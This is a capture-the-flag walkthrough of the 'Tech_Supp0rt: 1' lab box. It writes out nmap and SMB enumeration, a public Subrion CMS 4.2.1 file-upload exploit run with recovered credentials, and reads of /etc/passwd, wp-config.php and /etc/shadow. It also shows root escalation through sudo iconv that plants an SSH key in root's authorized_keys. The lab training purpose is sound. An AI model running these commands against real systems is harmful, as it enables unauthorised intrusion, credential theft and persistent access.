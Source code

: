 
![image](https://user-images.githubusercontent.com/71709864/221074068-11d3169e-530e-4df7-80bb-a91efe0bcc33.png)


# Tech_Supp0rt: 1

## Hack into the machine and investigate the target.

I started of this challenge by running an nmap scan and also ran a gobuster scan.
```
nmap -sV -sC <IP_Machine>
```
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u <IP_Machine>
```
The nmap scan came back and I quickly noticed that there was an smb server present.

Host Scripts Results:

account_used: guest

authentication_level: user

After many failed attempts of trying to make the credentials work with 
the smbclient command.. I searched online and found a command to connect.

```
smbclient //<Machine_IP>/websvr
```

Here I was into the smb server client
From here I used an 'ls' command and saw that there was an 'enter.txt' file.
I used a 'get' command to download the file onto my host machine.
After I opened the file on my machine it read:
______________________________________________________________________
```
Goals
=====
1)Make fake popup and host it online on Digital Ocean server

2)Fix subrion site, /subrion doesn't work, edit from panel

3)Edit wordpress website

IMP
===
Subrion creds

|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

Wordpress creds

|->
```
_______________________________________________________________________

Reading this file I saw that the 'subrion/' looked like a directory on the webpage. 
There also seemed to be a username and password. (If you put the password into
cyberchef and cook it with the magic decryption.. it comes out to 'Scam2021')

I tried to put the subrion/ onto the end of browser search and came 
up with a directory along with a /robots.txt after it.

http://<IP_Machine>/subrion/robots.txt
resulted with these directories >> 
______________________________________________________________________
User-agent: *

Disallow: /backup/

Disallow: /cron/?

Disallow: /front/

Disallow: /install/

Disallow: /panel/

Disallow: /tmp/

Disallow: /updates/
_________________________________________________________________________

I tried to input all of these and the one that looked most interesting
was the '/panel/' page because I already had a username and a password.

After logging in it appeared I could be able to run an exploit and get a shell on this machine.
There was a version that I could see as Subrion CMS
v 4.2.1

I found an exploit on 'exploit-db' which seemed to match the same version called 
Subrion CMS 4.2.1 - Arbitrary File Upload 

When trying to run the exploit I got an error tha looked like this :

```
Traceback (most recent call last):
  File "49876.py", line 19, in <module>
    from bs4 import BeautifulSoup
ModuleNotFoundError: No module named 'bs4'
```
I then installed BeauttifulSoup using https://pypi.org/project/beautifulsoup4/

```
pip2 install beautifulsoup4
```

After installing.. I ran the command again with the username (-l) and password (-p)
like so--->

```
python3 49876.py -u http://10.10.198.19/subrion/panel/ -l admin -p Scam2021
``` 
AND I GOT A SHELL ^-^
Here I searched for /etc/passwd file 

```
cat /etc/passwd
```
I noticed that there was a directory to 'scamsite' and also knew that the site was powered
by wordpress so I could be able to run a cat command using this in the shell.

```
cat /var/www/html/wordpress/wp-config.php
```

Here I got access to the file and was able to find a password 

```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I then ran ssh to connect to the website using the password I found
in the database.

```
ssh scamsite@<IP_Machine>
```
And then I was connected to 'scamsite@TechSupport'
I then checked for permissions. 

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/iconv
```

Once I saw that we had privilege here.. I went to GTFO bins and 
searched for permissions. I searched iconv and used -->

```
LFILE=file_to_read   
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Then I imput the path I wanted to use

```
LFILE=/etc/shadow   
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This gave me the shadow file. I then ran another command
This time using -->

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And I got the root.txt flag

This wasn't the end as I wanted to get to the root user.
On my machine I generated a public and private key.

```
ssh-keygen
```

I copied the public key and put it onto the attacking machine

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXAr00dvELBb43yeqP1kKlKcmJfiF5Kf4FXmHUwr17wwEpl
yP4jvjCS1uyW4Wrz+Bu1htWrW5NoiBwbR6BZqzXjlJKDVH3vKI2DvoQRLyvsdG+h7CmtszATI/zkLIL9kSfoVlXtWpNaN/9Ay8
/rQISsgsMdERPq/o6aatQF0KEtBPOW6+/TuwY9iFujfK56veQkDiolVN+BXSbz//HIzFyC1Tf8dnjBXVDEfHqicuW
50uuJq0Haj6ZETCWk0r/BOUCD28R2AFbqRd2z1RTCThSMzpoBKHeDTLqpc1z4ebpVlk0DL2DzMzCLKAa
kWe/CVAn7jzHfiVmQ5SwhF7NVSCV lotus@<<Machine_IP>" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys  
```

I then used the key pair to log onto the root user.

```
ssh root@<attacking_ip> -i tech_support
```

And finally I was root ^_^.
